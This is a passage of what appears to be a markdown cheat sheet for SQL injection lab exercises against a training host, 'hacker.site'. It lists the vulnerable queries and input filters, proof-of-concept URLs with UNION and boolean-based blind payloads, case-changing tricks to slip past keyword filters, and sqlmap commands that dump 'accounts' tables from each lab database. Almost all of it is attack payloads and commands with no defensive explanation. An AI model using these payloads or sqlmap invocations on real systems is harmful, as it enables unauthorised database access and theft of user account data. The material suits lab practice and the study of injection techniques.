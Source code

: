 ```bash
# SQLMAP
./sqlmap.py -u 'http://hacker.site/2nd/view.php?payload=a' \
	--technique=U --suffix='; -- -' --banner
./sqlmap.py -u 'http://hacker.site/2nd/view.php?payload=a' \
	--technique=U --suffix='; -- -' -D selfie4you01 -T accounts --dump --no-cast
```
## 2 - UNION SELECT
```bash
Query: $query = "SELECT views FROM attachments where filename='$entry';";
# PoC
http://hacker.site/2nd/upload.php?lab=2&payload=\'+union+select+@@version;%23
# SQLMAP
./sqlmap.py -u "http://hacker.site/2nd/upload.php?lab=2&payload=_" \
	-p payload --technique=U --suffix=';#' --union-col=1 --dbms MySQL \
	--banner --no-cast
./sqlmap.py -u "http://hacker.site/2nd/upload.php?lab=2&payload=_" \
	-p payload --technique=U --suffix=';#' --union-col=1 --dbms MySQL \
	-D selfie4you02 -T accounts --dump --no-cast
```
## 3 - UNION SELECT 
```bash
Filters: /UNION/, /SELECT/
Query: $query = "SELECT views FROM attachments where filename='$entry';";
# PoC
http://hacker.site/2nd/upload.php?lab=3&payload=a%27%20UNIoN%20SeLECT%20%27PoC%20String%27;%20--%20-
# SQLMAP
./sqlmap.py -u 'http://hacker.site/2nd/upload.php?lab=3&payload=b' \
	-p payload --technique=U --suffix=';#' --dbms MySQL --union-col=1 --no-cast \
	--tamper=randomcase --banner
./sqlmap.py -u 'http://hacker.site/2nd/upload.php?lab=3&payload=b' \
	-p payload --technique=U --suffix=';#' --dbms MySQL --union-col=1 --no-cast \
	--tamper=randomcase -D selfie4you03 -T accounts --dump
```
## 4 - Boolean-based blind
```bash
Filters: /UNION/i, /\ AND\ /i
Query: $query = "SELECT views FROM attachments where filename='$entry';";
# POCs
# (%26) == &
TRUE:	http://hacker.site/2nd/upload.php?lab=4&payload=01.jpg'+%26%26+'123'='123
FALSE:	http://hacker.site/2nd/upload.php?lab=4&payload=01.jpg'+%26%26+'123'='1
# using true (1) and false (0)booleans
# (%23) == #
TRUE:	http://hacker.site/2nd/upload.php?lab=4&payload=01.jpg\'+%26%26+TRUE;%23
FALSE:	http://hacker.site/2nd/upload.php?lab=4&payload=01.jpg\'+%26%26+FALSE;%23

# SQLMAP
./sqlmap.py -u 'http://hacker.site/2nd/upload.php?lab=4&payload=X' \
	-p payload --technique=B --dbms MySQL --no-cast --tamper=symboliclogical --threads=10 \
	--banner --flush-session

./sqlmap.py -u 'http://hacker.site/2nd/upload.php?lab=4&payload=X' \
	-p payload --technique=B --dbms MySQL --no-cast --tamper=symboliclogical --threads=10 \
	-D selfie4you04 -T accounts --dump
```
## 5	- Boolean-based blind
```bash
Filters: /UNION/i, /\ AND\ /i, /\ OR\ /i
Query: $query = "SELECT views FROM attachments where filename='$entry';";
```